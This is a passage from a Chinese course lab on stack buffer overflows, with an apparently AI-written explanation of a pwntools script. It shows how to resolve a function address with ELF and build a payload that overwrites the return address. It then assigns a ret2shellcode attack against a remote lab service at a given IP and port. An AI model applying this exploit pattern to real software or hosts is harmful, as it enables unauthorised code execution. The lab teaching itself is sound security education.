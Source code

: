 # lab01-缓冲区溢出

## 栈上缓冲区溢出

### Task 1

#### 请阅读 sbof1.c 和 example.py，关注脚本中：

- 学会使用 pwntools 中的 ELF，其可以方便的辅助得到代码下符号的地址、字符串地址、GOT 表等信息
- 学会根据读汇编代码理解如何计算缓冲区长度以及如何覆盖返回地址的

好的,我已经阅读了您提供的代码文件。根据您的要求,我将用中文回复并重点关注您提到的几个方面:

1. 使用 pwntools 中的 ELF:

```python:cs144/SSecAnyaZJU/lab-01/sbof/example.py
binary = ELF("./sbof1") # 分析目标程序
target_code_addr = binary.symbols["target_code"]
```

使用 ELF 类来分析目标程序,并通过 `binary.symbols["target_code"]` 获取 `target_code` 函数的地址。

2. 通过汇编代码理解缓冲区长度和返回地址覆盖:

- 栈帧大小为 0x50 (`sub rsp,0x50`)
- 缓冲区从 [rbp - 0x50] 开始,到 [rbp - 0x10] 结束
- len 变量位于 [rbp - 0x4]
- 需要额外 0x18 字节来覆盖返回地址

根据这些信息,payload 的构造如下:

```python:cs144/SSecAnyaZJU/lab-01/sbof/example.py
payload = b""
payload += b"A" * 0x40  # 1. 填充原始缓冲区
payload += b"B" * 0x10  # 2. 填充剩余空间
payload += b"C" * 0x8   # 3. 填充帧指针
payload += p64(target_code_addr)    # 4. 填充返回地址
payload = payload + b"D" * (128 - len(payload)) # 5. 填充剩余空间
```

#### 实践：

请阅读 sbof2.c，并在理解 example.py 的基础上编写攻击代码，实现 ret2shellcode 攻击的本地测试和远程测试，该服务暴露在：

IP: 8.154.20.109, PORT: 10100

请截图证明远程成功拿 shell，并将攻击代码以附件形式提交 (下图为获取到 flag 的截图示例)
